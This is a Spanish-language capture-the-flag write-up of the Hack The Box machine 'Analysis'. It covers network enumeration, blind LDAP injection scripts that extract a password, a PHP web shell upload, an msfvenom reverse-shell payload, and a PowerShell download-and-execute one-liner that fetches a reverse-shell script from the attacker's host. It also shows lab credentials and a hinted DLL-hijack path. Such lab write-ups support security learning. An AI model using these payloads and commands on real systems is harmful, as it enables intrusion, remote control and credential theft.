


pointedsec
if pentester.found == bug { make(pentester,states.happy) }
Hack The Box: Analysis Writeup
Welcome to my detailed writeup of the hard difficulty machine “Analysis” on Hack The Box. This writeup will cover the steps taken to achieve initial foothold and escalation to root.
TCP Enumeration
$ rustscan -a 10.129.230.179 --ulimit 5000 -g
10.129.230.179 -> [53,80,88,135,139,389,445,464,593,3306,5985,9389,33060,47001,49666,49664,49667,49665,49671,49678,49679,49682,49691,49704,49717,49719]
$ nmap -p53,80,88,135,139,389,445,464,593,3306,5985,9389,33060,47001,49666,49664,49667,49665,49671,49678,49679,49682,49691,49704,49717,49719 -sCV 10.129.230.179 -oN allPorts
Starting Nmap 7.94SVN ( https://nmap.org ) at 2024-08-12 19:29 CEST
Nmap scan report for 10.129.230.179
Host is up (0.042s latency).
PORT STATE SERVICE VERSION
53/tcp open domain Simple DNS Plus
80/tcp open http Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP)
|_http-server-header: Microsoft-HTTPAPI/2.0
|_http-title: Not Found
88/tcp open kerberos-sec Microsoft Windows Kerberos (server time: 2024-08-12 15:30:00Z)
135/tcp open msrpc Microsoft Windows RPC
139/tcp open netbios-ssn Microsoft Windows netbios-ssn
389/tcp open ldap Microsoft Windows Active Directory LDAP (Domain: analysis.htb0., Site: Default-First-Site-Name)
445/tcp open microsoft-ds?
464/tcp open kpasswd5?
593/tcp open ncacn_http Microsoft Windows RPC over HTTP 1.0
3306/tcp open mysql MySQL (unauthorized)
5985/tcp open http Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP)
|_http-server-header: Microsoft-HTTPAPI/2.0
|_http-title: Not Found
9389/tcp open mc-nmf .NET Message Framing
33060/tcp open mysqlx?
| fingerprint-strings:
| DNSStatusRequestTCP, LDAPSearchReq, NotesRPC, SSLSessionReq, TLSSessionReq, X11Probe:
| Invalid message"
| HY000
| LDAPBindReq:
| *Parse error unserializing protobuf message"
| HY000
| oracle-tns:
| Invalid message-frame."
|_ HY000
47001/tcp open http Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP)
|_http-title: Not Found
|_http-server-header: Microsoft-HTTPAPI/2.0
49664/tcp open msrpc Microsoft Windows RPC
49665/tcp open msrpc Microsoft Windows RPC
49666/tcp open msrpc Microsoft Windows RPC
49667/tcp open msrpc Microsoft Windows RPC
49671/tcp open msrpc Microsoft Windows RPC
49678/tcp open ncacn_http Microsoft Windows RPC over HTTP 1.0
49679/tcp open msrpc Microsoft Windows RPC
49682/tcp open msrpc Microsoft Windows RPC
49691/tcp open msrpc Microsoft Windows RPC
49704/tcp open msrpc Microsoft Windows RPC
49717/tcp open msrpc Microsoft Windows RPC
49719/tcp open msrpc Microsoft Windows RPC
1 service unrecognized despite returning data. If you know the service/version, please submit the following fingerprint at https://nmap.org/cgi-bin/submit.cgi?new-service :
SF-Port33060-TCP:V=7.94SVN%I=7%D=8/12%Time=66BA467F%P=x86_64-pc-linux-gnu%
SF:r(GenericLines,9,"\x05\0\0\0\x0b\x08\x05\x1a\0")%r(GetRequest,9,"\x05\0
SF:\0\0\x0b\x08\x05\x1a\0")%r(HTTPOptions,9,"\x05\0\0\0\x0b\x08\x05\x1a\0"
SF:)%r(RTSPRequest,9,"\x05\0\0\0\x0b\x08\x05\x1a\0")%r(RPCCheck,9,"\x05\0\
SF:0\0\x0b\x08\x05\x1a\0")%r(DNSStatusRequestTCP,2B,"\x05\0\0\0\x0b\x08\x0
SF:5\x1a\0\x1e\0\0\0\x01\x08\x01\x10\x88'\x1a\x0fInvalid\x20message\"\x05H
SF:Y000")%r(Help,9,"\x05\0\0\0\x0b\x08\x05\x1a\0")%r(SSLSessionReq,2B,"\x0
SF:5\0\0\0\x0b\x08\x05\x1a\0\x1e\0\0\0\x01\x08\x01\x10\x88'\x1a\x0fInvalid
SF:\x20message\"\x05HY000")%r(TerminalServerCookie,9,"\x05\0\0\0\x0b\x08\x
SF:05\x1a\0")%r(TLSSessionReq,2B,"\x05\0\0\0\x0b\x08\x05\x1a\0\x1e\0\0\0\x
SF:01\x08\x01\x10\x88'\x1a\x0fInvalid\x20message\"\x05HY000")%r(Kerberos,9
SF:,"\x05\0\0\0\x0b\x08\x05\x1a\0")%r(SMBProgNeg,9,"\x05\0\0\0\x0b\x08\x05
SF:\x1a\0")%r(X11Probe,2B,"\x05\0\0\0\x0b\x08\x05\x1a\0\x1e\0\0\0\x01\x08\
SF:x01\x10\x88'\x1a\x0fInvalid\x20message\"\x05HY000")%r(FourOhFourRequest
SF:,9,"\x05\0\0\0\x0b\x08\x05\x1a\0")%r(LPDString,9,"\x05\0\0\0\x0b\x08\x0
SF:5\x1a\0")%r(LDAPSearchReq,2B,"\x05\0\0\0\x0b\x08\x05\x1a\0\x1e\0\0\0\x0
SF:1\x08\x01\x10\x88'\x1a\x0fInvalid\x20message\"\x05HY000")%r(LDAPBindReq
SF:,46,"\x05\0\0\0\x0b\x08\x05\x1a\x009\0\0\0\x01\x08\x01\x10\x88'\x1a\*Pa
SF:rse\x20error\x20unserializing\x20protobuf\x20message\"\x05HY000")%r(SIP
SF:Options,9,"\x05\0\0\0\x0b\x08\x05\x1a\0")%r(LANDesk-RC,9,"\x05\0\0\0\x0
SF:b\x08\x05\x1a\0")%r(TerminalServer,9,"\x05\0\0\0\x0b\x08\x05\x1a\0")%r(
SF:NCP,9,"\x05\0\0\0\x0b\x08\x05\x1a\0")%r(NotesRPC,2B,"\x05\0\0\0\x0b\x08
SF:\x05\x1a\0\x1e\0\0\0\x01\x08\x01\x10\x88'\x1a\x0fInvalid\x20message\"\x
SF:05HY000")%r(JavaRMI,9,"\x05\0\0\0\x0b\x08\x05\x1a\0")%r(WMSRequest,9,"\
SF:x05\0\0\0\x0b\x08\x05\x1a\0")%r(oracle-tns,32,"\x05\0\0\0\x0b\x08\x05\x
SF:1a\0%\0\0\0\x01\x08\x01\x10\x88'\x1a\x16Invalid\x20message-frame\.\"\x0
SF:5HY000")%r(ms-sql-s,9,"\x05\0\0\0\x0b\x08\x05\x1a\0")%r(giop,9,"\x05\0\
SF:0\0\x0b\x08\x05\x1a\0");
Service Info: Host: DC-ANALYSIS; OS: Windows; CPE: cpe:/o:microsoft:windows
Host script results:
| smb2-time:
| date: 2024-08-12T15:30:55
|_ start_date: N/A
| smb2-security-mode:
| 3:1:1:
|_ Message signing enabled and required
|_clock-skew: -1h59m30s
Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 70.94 second
UDP Enumeration
$ sudo nmap --top-ports 1500 10.129.230.179 -sU --min-rate 5000 -n -Pn -oN allPorts.UDP
Starting Nmap 7.94SVN ( https://nmap.org ) at 2024-08-12 19:36 CEST
Nmap scan report for 10.129.230.179
Host is up (0.042s latency).
Not shown: 1497 open|filtered udp ports (no-response)
PORT STATE SERVICE
88/udp open kerberos-sec
123/udp open ntp
18985/udp closed unknown
Nmap done: 1 IP address (1 host up) scanned in 1.00 seconds
Añadimos el dominio analysis.htb al /etc/hosts
Vemos los típicos puertos abiertos en un DC, LDAP, RPC, SMB… Pero a parte vemos el puerto 3306/TCP correspondiente a MySQL, para tenerlo en cuenta.
Enumerating SMB
$ smbclient -L \\10.129.230.179 -U -N
Password for [WORKGROUP\-N]:
┌─[192.168.1.52]─[pointedsec@parrot]─[~/Desktop/analysis/scan]
└──╼ [★]$ smbclient -L \\10.129.230.179 -U '' -N
Sharename Type Comment
--------- ---- -------
Reconnecting with SMB1 for workgroup listing.
do_connect: Connection to 10.129.230.179 failed (Error NT_STATUS_RESOURCE_NAME_NOT_FOUND)
Unable to connect with SMB1 -- no workgroup available
Por ahora no podemos hacer enumerar mediante SMB sin credenciales válidas.
RPC Enumeration
$ rpcclient -U "" 10.129.230.179 -N
rpcclient $> enumdomusers
result was NT_STATUS_ACCESS_DENIED
rpcclient $> enumdomgroups
result was NT_STATUS_ACCESS_DENIED
Lo mismo mediante RPC.
DNS Enumeration
Siempre que me enfrento contra un servidor DNS, me gusta enumerar subdominios realizando un ataque de fuerza bruta con dnsenum
Descubrimos el NS dc-analysis.analysis.htb y un dominio adicional internal.analysis.htb.
$ dnsenum -f /opt/SecLists/Discovery/DNS/subdomains-top1million-110000.txt --dnsserver 10.129.230.179 analysis.htb
dnsenum VERSION:1.2.6
----- analysis.htb -----
Host's addresses:
__________________
analysis.htb. 600 IN A 10.129.230.179
Name Servers:
______________
dc-analysis.analysis.htb. 3600 IN A 10.129.230.179
Mail (MX) Servers:
___________________
Trying Zone Transfers and getting Bind Versions:
_________________________________________________
unresolvable name: dc-analysis.analysis.htb at /usr/bin/dnsenum line 900.
Trying Zone Transfer for analysis.htb on dc-analysis.analysis.htb ...
AXFR record query failed: no nameservers
Brute forcing with /opt/SecLists/Discovery/DNS/subdomains-top1million-110000.txt:
__________________________________________________________________________________
www.analysis.htb. 3600 IN A 192.168.1.100
internal.analysis.htb. 3600 IN A 192.168.1.100
gc._msdcs.analysis.htb. 600 IN A 10.129.230.179
Alternativamente también podríamos haber descubierto el NS con dig
$ dig NS analysis.htb @10.129.230.179
; <<>> DiG 9.18.24-1-Debian <<>> NS analysis.htb @10.129.230.179
;; global options: +cmd
;; Got answer:
;; ->>HEADER<<- opcode: QUERY, status: NOERROR, id: 44364
;; flags: qr aa rd ra; QUERY: 1, ANSWER: 1, AUTHORITY: 0, ADDITIONAL: 2
;; OPT PSEUDOSECTION:
; EDNS: version: 0, flags:; udp: 4000
;; QUESTION SECTION:
;analysis.htb. IN NS
;; ANSWER SECTION:
analysis.htb. 3600 IN NS dc-analysis.analysis.htb.
;; ADDITIONAL SECTION:
dc-analysis.analysis.htb. 3600 IN A 10.129.230.179
;; Query time: 36 msec
;; SERVER: 10.129.230.179#53(10.129.230.179) (UDP)
;; WHEN: Mon Aug 12 19:48:19 CEST 2024
;; MSG SIZE rcvd: 83
LDAP Enumeration
$ ldapsearch -x -H ldap://10.129.230.179 -D '' -w '' -b "DC=internal,DC=analysis,DC=htb"
# extended LDIF
#
# LDAPv3
# base <DC=internal,DC=analysis,DC=htb> with scope subtree
# filter: (objectclass=*)
# requesting: ALL
#
# search result
search: 2
result: 1 Operations error
text: 000004DC: LdapErr: DSID-0C090CF4, comment: In order to perform this opera
tion a successful bind must be completed on the connection., data 0, v4563
# numResponses: 1
Por LDAP sin credenciales tampoco conseguimos nada.
HTTP Enumeration
$ whatweb http://analysis.htb
http://analysis.htb [200 OK] Country[RESERVED][ZZ], Email[mail@demolink.org,privacy@demolink.org], HTTPServer[Microsoft-IIS/10.0], IP[10.129.230.179], JQuery, Microsoft-IIS[10.0], Script[text/javascript]
┌─[192.168.1.52]─[pointedsec@parrot]─[~/Desktop/analysis/scan]
└──╼ [★]$ whatweb http://internal.analysis.htb
http://internal.analysis.htb [403 Forbidden] Country[RESERVED][ZZ], HTTPServer[Microsoft-IIS/10.0], IP[10.129.230.179], Microsoft-IIS[10.0], Title[403 - Interdit�: acc�s refus�.]
Vemos que internal.analysis.htb y analysis.htb devuelven información distinta por lo cual podemos deducir que se está aplicando virtual hosting por detrás.
Enumerating analysis.htb
Esta es la pinta del sitio web.

Detectamos un nombre de usuario.

También encontramos un archivo PHP que se le manda varia data por POST.

Si intentamos mandar una solicitud POST con la data que vemos en el script JS, vemos lo siguiente.
Un error 500 pero en francés. Esto hay que tenerlo en cuenta ya que cuentas de sistema como la cuenta de Administrador, puede que se llame Administrateur
$ curl -X POST http://analysis.htb/bat/MailHandler.php --data "name=holaholahola&state=holahgolaholah&phone=7227272722&fax=722727272&message=hjolhoalhaoh"
<!DOCTYPE html PUBLIC "-//W3C//DTD XHTML 1.0 Strict//EN" "http://www.w3.org/TR/xhtml1/DTD/xhtml1-strict.dtd">
<html xmlns="http://www.w3.org/1999/xhtml">
<head>
<meta http-equiv="Content-Type" content="text/html; charset=iso-8859-1"/>
<title>500 - Erreur interne au serveur.</title>
<style type="text/css">
<!--
body{margin:0;font-size:.7em;font-family:Verdana, Arial, Helvetica, sans-serif;background:#EEEEEE;}
fieldset{padding:0 15px 10px 15px;}
h1{font-size:2.4em;margin:0;color:#FFF;}
h2{font-size:1.7em;margin:0;color:#CC0000;}
h3{font-size:1.2em;margin:10px 0 0 0;color:#000000;}
#header{width:96%;margin:0 0 0 0;padding:6px 2% 6px 2%;font-family:"trebuchet MS", Verdana, sans-serif;color:#FFF;
background-color:#555555;}
#content{margin:0 0 0 2%;position:relative;}
.content-container{background:#FFF;width:96%;margin-top:8px;padding:10px;position:relative;}
-->
</style>
</head>
<body>
<div id="header"><h1>Erreur de serveur</h1></div>
<div id="content">
<div class="content-container"><fieldset>
<h2>500 - Erreur interne au serveur.</h2>
<h3>La ressource que vous recherchez pr�sente un probl�me, elle ne peut donc pas �tre affich�e.</h3>
</fieldset></div>
</div>
</body>
</html>
No encuentro nada relevante sobre este archivo.
Enumerating internal.analysis.htb
Con feroxbuster podemos encontrar varias rutas que puede que nos interese.
301 GET 2l 10w 170c http://internal.analysis.htb/users => http://internal.analysis.htb/users/
301 GET 2l 10w 174c http://internal.analysis.htb/dashboard => http://internal.analysis.htb/dashboard/
301 GET 2l 10w 170c http://internal.analysis.htb/Users => http://internal.analysis.htb/Users/
301 GET 2l 10w 174c http://internal.analysis.htb/employees => http://internal.analysis.htb/employees/
301 GET 2l 10w 174c http://internal.analysis.htb/Dashboard => http://internal.analysis.htb/Dashboard/
Después de fuzzear un rato, encontramos algunos recursos interesantes bajo /dashboard.

Y encontramos algo que me llama mucho la atención en /users

Me pide un parámetro.

Esto nos viene perfectos ya que como kerberos está abierto, quizás podemos listar usuarios y pensar en algún vector de ataque.
Solo falta descubrir cual es el parámetro que necesita, así que con wfuzz vamos a fuzzear los parámetros.
$ wfuzz --hh=17 -c -w /opt/SecLists/Discovery/Web-Content/burp-parameter-names.txt -u 'http://internal.analysis.htb/users/list.php?FUZZ=loquesea'
/usr/lib/python3/dist-packages/wfuzz/__init__.py:34: UserWarning:Pycurl is not compiled against Openssl. Wfuzz might not work correctly when fuzzing SSL sites. Check Wfuzz's documentation for more information.
********************************************************
* Wfuzz 3.1.0 - The Web Fuzzer *
********************************************************
Target: http://internal.analysis.htb/users/list.php?FUZZ=loquesea
Total requests: 6453
=====================================================================
ID Response Lines Word Chars Payload
=====================================================================
000003598: 200 0 L 11 W 406 Ch "name"
Y encontramos el parámetro name
Ahora bien, debo de saber que nombres de usuario hay que introducir para ver su información así que estamos en las mismas.
Pero por detrás se debe de estar haciendo alguna consulta a una base de datos.
LDAP Injection
Tras probar varios payloads para una SQLi, probé el asterisco * y me devolvió un usuario. Esto es un indicio de que por detrás se están haciendo consultas por LDAP.

Vamos a scriptear esto con python para descubrir usuarios.
Esta es la primera versión del script para buscar usuarios.
#!/usr/bin/python3
import requests
import string
import html2text
import os
import re
import signal
from pwn import *
from itertools import product
base_url = "http://internal.analysis.htb/users/list.php"
charset = string.ascii_lowercase # a-z
h2t = html2text.HTML2Text()
h2t.ignore_linkgs = True
user_regex = re.compile(r'<strong>(.*?)</strong>')
users = []
def def_handler(x,y):
log.info("Saliendo..")
log.info(f"Usuarios recuperados {len(users)}")
for user in users:
print(user)
exit(1)
signal.signal(signal.SIGINT,def_handler)
def check_user(prefix):
url = f"{base_url}?name={prefix}*"
response = requests.get(url)
if "CONTACT_" not in response.text:
name = user_regex.search(response.text).group(1)
print(f"Found user with prefix '{prefix}': | user -> {name}")
print(h2t.handle(response.text))
users.append(name)
return True
return False
def enumerate_users():
p = log.progress("Probando")
for length in range(1, 9):
for prefix in product(charset, repeat=length):
prefix_str = ''.join(prefix)
p.status(prefix_str)
check_user(prefix_str)
if __name__ == "__main__":
log.info("Iniciando fuerza bruta")
enumerate_users()
Después de esperar un rato recuperamos algunos usuarios.
Found user with prefix 'te': | user -> technician
## Search result
Username| Last Name| First Name| Company| Department| Office Phone| Fax|
Mobile| DDI| E-Mail Address| Home Phone
---|---|---|---|---|---|---|---|---|---|---
**technician**| | technician| | | | | | | |
[*] Saliendo..
[*] Usuarios recuperados 10
amanson
badam
jangel
lzen
technician
amanson
badam
jangel
lzen
technician
Quitando los duplicados.
$ sort users.dup.txt | uniq > users.txt
┌─[192.168.1.52]─[pointedsec@parrot]─[~/Desktop/analysis/content]
└──╼ [★]$ cat users.txt
amanson
badam
jangel
lzen
pleazkin
technician
Podemos confirmar que estos usuarios son válidos a nivel de sistema con kerbrute
$ /opt/kerbrute userenum --dc 10.129.230.179 -d analysis.htb users.txt
__ __ __
/ /_____ _____/ /_ _______ __/ /____
/ //_/ _ \/ ___/ __ \/ ___/ / / / __/ _ \
/ ,< / __/ / / /_/ / / / /_/ / /_/ __/
/_/|_|\___/_/ /_.___/_/ \__,_/\__/\___/
Version: v1.0.3 (9dad6e1) - 08/12/24 - Ronnie Flathers @ropnop
2024/08/12 20:39:37 > Using KDC(s):
2024/08/12 20:39:37 > 10.129.230.179:88
2024/08/12 20:39:37 > [+] VALID USERNAME: amanson@analysis.htb
2024/08/12 20:39:37 > [+] VALID USERNAME: badam@analysis.htb
2024/08/12 20:39:37 > [+] VALID USERNAME: lzen@analysis.htb
2024/08/12 20:39:37 > [+] VALID USERNAME: jangel@analysis.htb
2024/08/12 20:39:37 > [+] VALID USERNAME: technician@analysis.htb
2024/08/12 20:39:37 > Done! Tested 6 usernames (5 valid) in 0.043 seconds
Podemos probar a solicitar un ticket TGT pero esto no sirve..
$ impacket-GetNPUsers -no-pass -usersfile users.txt analysis.htb/
Impacket v0.11.0 - Copyright 2023 Fortra
[-] User amanson doesn't have UF_DONT_REQUIRE_PREAUTH set
[-] User badam doesn't have UF_DONT_REQUIRE_PREAUTH set
[-] User jangel doesn't have UF_DONT_REQUIRE_PREAUTH set
[-] User lzen doesn't have UF_DONT_REQUIRE_PREAUTH set
[-] Kerberos SessionError: KDC_ERR_C_PRINCIPAL_UNKNOWN(Client not found in Kerberos database)
[-] User technician doesn't have UF_DONT_REQUIRE_PREAUTH set
Por lo cual, podemos intentar recuperar el campo description que existe por defecto para ver si contiene algo para cada usuario.
Primero debemos fabricar nuestro payload.
Después de un rato probando (no tengo mucha experiencia en inyecciones LDAP), encontramos lo siguiente.
Este payload me devuelve algo:
*)(description=*
Pero este otro payload no *)(description=A

Esto significa que tenemos una inyección a ciegas, y podemos filtrar la descripción de cada usuario.
Falta scriptearlo. Si esto no funciona, podemos modificar el script para descubrir campos que quizás nos interesen.
Primero me interesa saber que usuarios tienen una descripción.
#!/usr/bin/python3
import requests
from pwn import *
import string
URL = "http://internal.analysis.htb/users/list.php?name=<USER>)(description=<DESC>"
DEFAULT_LEN = 406
alphabet = string.ascii_letters + string.digits + "_@{}-/!\"$%=^[]:;"
def brute(user):
forged_url = URL.replace("<USER>", user)
p = log.progress("Probando carácter ->")
for char in alphabet:
p.status(char)
r = requests.get(forged_url.replace("<DESC>", char + "*"))
if (len(r.text) != DEFAULT_LEN):
p.success("El usuario %s tiene descripción" % user)
def desc():
with open('users.txt', 'r', encoding="utf-8") as file:
p = log.progress("Usuario ->")
for user in file:
username = user.strip()
p.status(username)
brute(username)
if __name__ == "__main__":
desc()
Vemos que el usuario technician es el único que tiene descripción.
$ python3 description.py
[↓] Usuario ->: technician
[ ] Probando carácter ->: ;
[.\......] Probando carácter ->: ;
[0] Probando carácter ->: ;
[◣] Probando carácter ->: ;
[◑] Probando carácter ->: ;
[+] Probando carácter ->: El usuario technician tiene descripción
Ahora este es el script para bruteforcear la descripción.
#!/usr/bin/python3
import requests
from pwn import *
import string
URL = "http://internal.analysis.htb/users/list.php?name=<USER>)(description=<DESC>"
DEFAULT_LEN = 406
alphabet = string.ascii_letters + string.digits + "_@{}-/!\"$%=^[]:;"
def brute(user, known_prefix=""):
forged_url = URL.replace("<USER>", user)
description = known_prefix
p = log.progress("Probando carácter ->")
while True:
found_char = False
for char in alphabet:
p.status(description+char)
r = requests.get(forged_url.replace("<DESC>", description + char + "*"))
if len(r.text) != DEFAULT_LEN:
description += char
found_char = True
break # Salir del bucle interno
if not found_char:
p.success(f"Descripción final descubierta: {description}")
break # Salir del bucle externo
def desc():
p = log.progress("Usuario ->")
username = "technician"
p.status(username)
brute(username)
if __name__ == "__main__":
desc()
Si lo dejamos un rato..
$ python3 description.py
[▃] Usuario ->: technician
[+] Probando carácter ->: Descripción final descubierta: 97NTtl
Pero esta credencial es inválida.
$ nxc smb 10.129.230.179 -u technician -p 97NTtl
SMB 10.129.230.179 445 DC-ANALYSIS [*] Windows 10 / Server 2019 Build 17763 x64 (name:DC-ANALYSIS) (domain:analysis.htb) (signing:True) (SMBv1:False)
SMB 10.129.230.179 445 DC-ANALYSIS [-] analysis.htb\technician:97NTtl STATUS_LOGON_FAILURE
He omitido los caracteres ( ) y * porque rompían la inyección, por lo cual supongo que la credencial contiene alguno de estos caracteres.
Añado el carácter *. El problema es que puede dar falsos positivos, si esto es así, bruteforcearé luego con netexec los posibles campos que falten.
$ python3 description.py
[d] Usuario ->: technician
[↗] Probando carácter ->: 97NTtl*4QP96Bv**aaaaaaaaaaa
La a surge ya que la consulta por LDAP se rompe al introducir doble *. Por lo cual podemos probar como credencial 97NTtl*4QP96Bv
¡Y es válida!
$ nxc smb 10.129.230.179 -u technician -p '97NTtl*4QP96Bv'
SMB 10.129.230.179 445 DC-ANALYSIS [*] Windows 10 / Server 2019 Build 17763 x64 (name:DC-ANALYSIS) (domain:analysis.htb) (signing:True) (SMBv1:False)
SMB 10.129.230.179 445 DC-ANALYSIS [+] analysis.htb\technician:97NTtl*4QP96Bv
Este usuario no está en el grupo de Remote Management Users por lo cual no podemos conseguir una consola interactiva utilizando herramientas como evil-winrm
$ nxc winrm 10.129.230.179 -u technician -p '97NTtl*4QP96Bv'
WINRM 10.129.230.179 5985 DC-ANALYSIS [*] Windows 10 / Server 2019 Build 17763 (name:DC-ANALYSIS) (domain:analysis.htb)
WINRM 10.129.230.179 5985 DC-ANALYSIS [-] analysis.htb\technician:97NTtl*4QP96Bv
Por SMB tampoco vemos ningún recurso compartido a nivel de red interesante.
$ nxc smb 10.129.230.179 -u technician -p '97NTtl*4QP96Bv' --shares
SMB 10.129.230.179 445 DC-ANALYSIS [*] Windows 10 / Server 2019 Build 17763 x64 (name:DC-ANALYSIS) (domain:analysis.htb) (signing:True) (SMBv1:False)
SMB 10.129.230.179 445 DC-ANALYSIS [+] analysis.htb\technician:97NTtl*4QP96Bv
SMB 10.129.230.179 445 DC-ANALYSIS [*] Enumerated shares
SMB 10.129.230.179 445 DC-ANALYSIS Share Permissions Remark
SMB 10.129.230.179 445 DC-ANALYSIS ----- ----------- ------
SMB 10.129.230.179 445 DC-ANALYSIS ADMIN$ Administration à distance
SMB 10.129.230.179 445 DC-ANALYSIS C$ Partage par défaut
SMB 10.129.230.179 445 DC-ANALYSIS IPC$ READ IPC distant
SMB 10.129.230.179 445 DC-ANALYSIS NETLOGON READ Partage de serveur d'accès
SMB 10.129.230.179 445 DC-ANALYSIS SYSVOL READ Partage de serveur d'accès
Pero tenemos unas credenciales.
Enumerating HTTP (again)
Al no ver nada interesante con estas credenciales, podemos seguir enumerando internal.analysis.htb ya que antes enumeré mas profundamente los recursos /users y /dashboard pero me falta /employees
$ feroxbuster -u http://internal.analysis.htb/employees/ -w /opt/SecLists/Discovery/Web-Content/directory-list-2.3-medium.txt -d 1 -t 100 -x php,asp,aspx
Y encontramos un recurso login.php
200 GET 30l 60w 1085c http://internal.analysis.htb/employees/login.php

Pide el email para iniciar sesión
Probando technician@analysis.htb:97NTtl*4QP96Bv podemos iniciar sesión.

Vemos una sección Messages donde algunos usuarios se están quejando de que el servidor va lento, puede ser por el fuzzeo que hemos realizado. Me gusta el realismo que han aplicado en esta máquina.
Vemos algunos To Dos, por lo que veo existe algún sistema de tickets detrás, y el recordatorio mas importante de aquí es que se están quejando de que no tienen café en las oficinas.

Podemos ver tickets.

Los mas relevantes este que menciona problemas con un ticket TGT.

Y este en el cual un usuario se queja de que no puede ejecutar un archivo HTA, hay tenerlo en cuenta ya que podríamos fabricar un archivo HTA malicioso y que este usuario al ejecutarlo nos mande una consola interactiva.
Luego vemos que tenemos una subida de archivos que supuestamente, lo que subamos será analizado por el equipo de SOC. Si Clara Williams pertenece a este equipo, quizás ejecute un archivo HTA si lo subimos.
También vemos un panel que se enviará a un usuario, podríamos probar XSS aquí.
Foothold
Vamos a probar a subir un archivo .hta
Creamos el payload con msfvenom
$ msfvenom -p windows/shell_reverse_tcp LHOST=10.10.14.13 LPORT=443 -f hta-psh > shell.hta
[-] No platform was selected, choosing Msf::Module::Platform::Windows from the payload
[-] No arch selected, selecting arch: x86 from the payload
No encoder specified, outputting raw payload
Payload size: 324 bytes
Final size of hta-psh file: 7407 bytes
Pero al enviar el archivo no recibimos la shell…
Alternativamente podemos crear un archivo info.php
<?php
phpinfo();
?>
Y al subirlo, podemos ver que el archivo existe en la ruta /dashboard/uploads/info.php

No existen disable_functions
Creamos una web_shell…
<?php
echo "<pre>" . shell_exec($_GET["cmd"]) . "</pre>";
?>
Y conseguimos ejecución remota de comandos.

Ahora para mandarnos la consola utilizamos el script Invoke-PowerShellTcp.ps1 de nishang
Y a lo último del script añadimos esta línea.

Servimos este archivo con python por el puerto 8081.
$ python3 -m http.server 8081
Serving HTTP on 0.0.0.0 port 8081 (http://0.0.0.0:8081/) ...
Ahora utilizamos este one-liner para descargar y ejecutar el script.
http://internal.analysis.htb/dashboard/uploads/shell.php?cmd=echo%20IEX(New-Object%20Net.WebClient).DownloadString(%27http://10.10.14.13:8081/Invoke-PowerShellTcp.ps1%27)%20|%20powershell%20-noprofile%20-
Y…
10.129.230.179 - - [12/Aug/2024 22:03:22] "GET /Invoke-PowerShellTcp.ps1 HTTP/1.1" 200 -
$ sudo rlwrap -cEr nc -lvnp 443
listening on [any] 443 ...
connect to [10.10.14.13] from (UNKNOWN) [10.129.230.179] 62413
Windows PowerShell running as user DC-ANALYSIS$ on DC-ANALYSIS
Copyright (C) 2015 Microsoft Corporation. All rights reserved.
PS C:\inetpub\internal\dashboard\uploads>whoami
analysis\svc_web
Podemos ver que el sistema está en francés, así que cuidado con el nombre de cuentas de usuario.

De hecho podemos comprobar el nombre de la cuenta del administrador.

User Pivoting | jdoe
Pasando el winPEASx64.exe encontramos unas credenciales en el autologon para el usuario jdoe

$ nxc smb analysis.htb -u 'jdoe' -p '7y4Z4^*y9Zzj'
SMB 10.129.230.179 445 DC-ANALYSIS [*] Windows 10 / Server 2019 Build 17763 x64 (name:DC-ANALYSIS) (domain:analysis.htb) (signing:True) (SMBv1:False)
SMB 10.129.230.179 445 DC-ANALYSIS [+] analysis.htb\jdoe:7y4Z4^*y9Zzj
Comprobamos que son válidas..
$ nxc winrm analysis.htb -u 'jdoe' -p '7y4Z4^*y9Zzj'
WINRM 10.129.230.179 5985 DC-ANALYSIS [*] Windows 10 / Server 2019 Build 17763 (name:DC-ANALYSIS) (domain:analysis.htb)
WINRM 10.129.230.179 5985 DC-ANALYSIS [+] analysis.htb\jdoe:7y4Z4^*y9Zzj (Pwn3d!)
Y está en el grupo Remote Management Users por lo cual con evil-winrm..
$ evil-winrm -i 10.129.230.179 -u jdoe -p '7y4Z4^*y9Zzj'
Evil-WinRM shell v3.5
Warning: Remote path completions is disabled due to ruby limitation: quoting_detection_proc() function is unimplemented on this machine
Data: For more information, check Evil-WinRM GitHub: https://github.com/Hackplayers/evil-winrm#Remote-path-completion
Info: Establishing connection to remote endpoint
*Evil-WinRM* PS C:\Users\jdoe\Documents> whoami
analysis\jdoe
Y podemos leer la flag de usuario
*Evil-WinRM* PS C:\Users\jdoe\Desktop> type user.txt
6c60ab7f059622a5...
Privilege Escalation
En la raíz del sistema vemos dos archivos interesantes.

Un log de Snort
y un mensaje encriptado
*Evil-WinRM* PS C:\private> type encoded.txt
-----BEGIN ENCODED MESSAGE-----
Version: BCTextEncoder Utility v. 1.03.2.1
wy4ECQMCq0jPQTxt+3BgTzQTBPQFbt5KnV7LgBq6vcKWtbdKAf59hbw0KGN9lBIK
0kcBSYXfHU2s7xsWA3pCtjthI0lge3SyLOMw9T81CPqT3HOIKkh3SVcO9jdrxfwu
pHnjX+5HyybuBwIQwGprgyWdGnyv3mfcQQ==
=a7bc
-----END ENCODED MESSAGE-----
Analizando mas a fondo la configuración de snort C:\Snort\etc\snort.conf podemos ver esta línea.
$ cat snort.conf | grep dynamicpreprocessor
dynamicpreprocessor directory C:\Snort\lib\snort_dynamicpreprocessor
Mirando la documentación
Tells snort to load the dynamic preprocessor shared library (if file is used) or all dynamic preprocessor shared libraries (if directory is used)
Por lo cual, cuando snort se ejecuta, carga todos los archivos .dll dentro de ese directorio.
